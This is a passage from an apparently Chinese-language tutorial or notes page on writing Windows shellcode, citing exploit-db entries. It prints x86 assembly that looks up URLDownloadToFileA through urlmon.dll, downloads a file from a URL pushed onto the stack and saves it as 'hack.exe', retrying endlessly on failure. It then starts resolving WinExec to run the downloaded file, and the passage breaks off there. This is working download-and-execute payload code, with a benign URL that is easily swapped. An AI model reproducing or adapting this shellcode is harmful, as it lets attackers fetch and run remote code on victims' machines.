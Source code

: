 * 找到函数的入口点

> https://www.exploit-db.com/exploits/48355

过刚刚得到的LoadLibraryA函数入口，加载urlmon.dll。再通过urlmon.dll获得URLDownloadToFileA的入口地址。使用该函数进行

> https://www.exploit-db.com/shellcodes/13533

```assembly
;URLDownloadToFileA(NULL, URL, save as, 0, NULL)
download:
pop eax
xor ecx, ecx
push ecx
; URL: https://www.python.org/ftp/python/3.8.3/python-3.8.3.exe
push 0x6578652E         ; exe.
push 0x74646573         ; tdes
push 0x6F6F672F         ; oog/
push 0x33312E36         ; 31.6
push 0x352E3836         ; 5.86
push 0x312E3239         ; 1.29
push 0x312F2F3A         ; 1//:
push 0x70747468         ; ptth
push esp
pop ecx                 ; save the URL string
xor ebx, ebx
push ebx
; save as hack.exe
push 0x6578652E         ; exe.
push 0x6B636168         ; kcah
push esp
pop ebx                 ; save the downloaded filename string
xor edx, edx
push edx
push edx
push ebx
push ecx
push edx
mov eax, [ebp-0x28]     ; PTR to URLDownloadToFileA to EAX
call eax
pop ecx
add esp, 44
xor edx, edx
cmp eax, edx
push ecx
jnz download            ; if it fails to download , retry contineusly
pop edx
```

* 找到WinExec函数的入口地址，并调用该函数运行下载的文件，最后退出程序

```assembly
Create string 'WinExec\x00' on the stack and save its address to the stack-frame
mov edx, 0x63657878     \
shr edx, 8              ; Shifts edx register to the right 8 bits
push edx                ; "\x00,cex"
push 0x456E6957         ; EniW : 456E6957
mov [ebp+0x18], esp     ; save address of string 'WinExec\x00' to the stack-frame
call findFunctionAddr   ; After Return EAX will = &WinExec


xor ecx, ecx          ; clear eax register
push ecx              ; string terminator 0x00 for "hack.exe" string
push 0x6578652e       ; exe. : 6578652e
push 0x6B636168       ; kcah : 6B636168
mov ebx, esp          ; save pointer to "hack.exe" string in eax
inc ecx               ; uCmdShow SW_SHOWNORMAL = 0x00000001
```